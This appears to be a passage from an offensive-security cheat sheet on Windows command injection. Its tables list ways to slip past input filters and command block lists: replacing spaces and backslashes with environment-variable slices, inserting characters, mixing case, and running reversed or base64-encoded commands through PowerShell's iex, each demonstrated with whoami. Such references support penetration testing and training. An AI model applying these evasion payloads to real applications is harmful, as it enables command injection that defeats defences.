 |Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|


## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"`                                                                                                   | Total must be even                       |
| `^`                                                                                                          | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |

